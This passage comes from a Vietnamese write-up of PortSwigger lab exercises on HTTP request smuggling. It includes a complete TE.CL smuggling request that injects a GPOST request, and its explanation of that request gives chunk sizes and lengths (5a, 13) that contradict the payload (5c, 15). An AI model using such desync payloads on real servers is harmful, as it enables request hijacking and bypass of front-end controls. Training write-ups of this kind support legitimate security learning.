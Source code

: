 ![image](https://hackmd.io/_uploads/rJ8QOUuaT.png)

tiếp đó burp gửi request thứ 2 kèm theo GET đến burp collaborator và response vẫn là 200 OK

![image](https://hackmd.io/_uploads/rkQXtUu6p.png)

cuối cùng là request 3 giống với request 1 nhưng lần này kết quả là 404 Not Found

![image](https://hackmd.io/_uploads/SJgZ9Uup6.png)

![image](https://hackmd.io/_uploads/HJdWqL_pa.png)

do bất đồng bộ trong việc sử lý request nên gói tin về đến server backend nó hiểu request thứ 2 gồm 2 gói tin và khi request thứ 3 gửi đi thì response của gói tin GET từ request thứ 2 mới được trả về

## 2. Lab: HTTP request smuggling, basic TE.CL vulnerability

link: https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl

### Đề bài

![image](https://hackmd.io/_uploads/HyWL38OTa.png)

### Phân tích

- Bài này là dạng TE.CL.
- Để giải quyết bài lab, mình cần chuyển một yêu cầu đến máy chủ back-end để yêu cầu tiếp theo được xử lý bởi máy chủ back-end sử dụng phương thức `GPOST`.

### Khai thác

mình dùng request như sau

```http!
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

- Lúc này, front-end server coi body là 2 chunked size `5a`, chunked size `5a` sẽ chứa:

```http!
GPOST / HTTP/1.1\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 13\r\n
\r\n
a
```
